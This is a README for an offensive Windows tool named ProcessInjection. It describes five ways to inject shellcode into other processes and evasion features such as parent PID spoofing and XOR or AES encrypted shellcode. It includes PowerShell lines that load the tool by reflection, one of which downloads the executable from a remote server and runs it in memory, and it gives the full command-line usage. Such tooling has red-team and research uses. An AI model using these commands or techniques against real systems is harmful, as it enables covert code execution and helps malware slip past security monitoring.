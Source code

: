 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 5 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
5) Dynamic Invoke - Vanilla Process Injection
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage           Description
-----           -----------
/t              Specify the process injection technique id.
                1 = Vanilla Process Injection
                2 = DLL Injection
                3 = Process Hollowing
                4 = APC Queue Injection
/m              Specify the method to be used
                p = P/Invoke (Default)
                d = D/Invoke
/f              Specify the format of the shellcode.
                base64
                hex
                c
                raw
/pid            Specify the process id.
/parentproc     Specify the parent process name.
/path           Specify the path of the file that contains the shellcode.
/ppath          Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url            Specify the url where the shellcode is hosted.
/enc            Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key            Specify the key that will be used to decrypt the shellcode.
/sc             Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.  
/help           Show help
```

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html](https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)
